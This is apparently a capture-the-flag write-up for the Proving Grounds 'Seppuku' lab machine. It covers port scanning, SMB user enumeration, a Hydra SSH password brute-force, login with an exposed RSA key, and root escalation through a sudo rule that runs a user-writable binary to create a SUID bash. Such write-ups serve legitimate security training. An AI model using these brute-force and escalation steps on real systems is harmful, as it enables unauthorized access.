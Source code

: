```yaml
---
layout: default
title: Seppuku
parent: Proving Grounds Play
nav_order: 1
---
```


# Seppuku

---

## Discovered Ports for Enumeration

- 21 - FTP
- 22 - SSH
- 80 - HTTP
- 445 - SMB
- 7080 - ssl empoweri
- 7601 - HTTP
- 8088 - HTTP

## Users and Credentials

- _Users_: seppuku, samurai, tanto
- _Credentials_: seppuku:eeyoree, samurai:12345685213456!@!@A

# Scanning

---

```bash
sudo nmap -Pn -p- -sC -sV -T4 -vv --open 192.168.166.90
```

# Enumeration

---

## 21 - FTP

Anonymous logon not allowed

## 80 - HTTP

Nothing useful

## 445 - SMB

### Enum4linux

Discovers three user accounts:

- seppuku
- samurai
- tanto

![seppuku_users](../../../assets/images/ctfs/proving_grounds/seppuku/seppuku_users.png)

## 7601 - HTTP

wfuzz discovered /secret directory

![secret](../../../assets/images/ctfs/proving_grounds/seppuku/secret.png)

"password.lst" contains potential user passwords for target machine.

![password_list](../../../assets/images/ctfs/proving_grounds/seppuku/password_list.png)

wfuzz also discovered the /keys directory which contains an RSA private key

![private](../../../assets/images/ctfs/proving_grounds/seppuku/private.png)

# Exploitation

---

## Hydra password cracking

Run Hydra against the user accounts discovered by Enum4Linux and the passwords discovered in the /secrets directory

```bash
hydra -L users -P passwords ssh://192.168.166.90
```

Get the credential _seppuku:eeyoree_

![hydra](../../../assets/images/ctfs/proving_grounds/seppuku/hydra.png)

## Authenticate with RSA key

Authentication with RSA private key discovered in the /keys directory works with "tanto" user

```bash
ssh -i id_rsa tanto@192.168.166.90
```

![tanto_ssh](../../../assets/images/ctfs/proving_grounds/seppuku/tanto_ssh.png)

# Post-Exploitation

---

## Enumerate user directories

Locate _.passwd_ file located in /home/seppuku directory.

samurai:12345685213456!@!@A
{: .warn }

## sudo -l

The "samurai" user can run the following command with sudo privileges and no password:

```bash
/../../../../../../home/tanto/.cgi_bin/bin /tmp/*
```

![sudo_l](../../../assets/images/ctfs/proving_grounds/seppuku/sudo_l.png)

We can exploit this with the following steps:

1. ssh as "tanto"
2. create directory .cgi_bin
3. create "bin" file in /.cgi_bin
4. make "bin" executable
5. switch back to "samurai" user
6. execute the sudo command to create /var/tmp/bash
7. execute /var/tmp/bash and get root privileges

### SSH as tanto user

We discovered the id_rsa private key for "tanto" during enumeration

```bash
ssh -i id_rsa tanto@192.168.166.90
```

### Create /.cgi_bin/bin

```bash
mkdir .cgi_bin
cd .cgi_bin
nano bin
```

![bin_file](../../../assets/images/ctfs/proving_grounds/seppuku/bin_file.png)

Make "bin" executable

```bash
chmod +x bin
```

### Execute sudo command as samurai user

Reauthenticate as the "samurai" user and execute the privileged sudo command

```bash
/../../../../../../home/tanto/.cgi_bin/bin /tmp/*
```

### Run bash binary and get root privileges

```bash
cd /var/tmp
./bash -p
```

![root](../../../assets/images/ctfs/proving_grounds/seppuku/root.png)
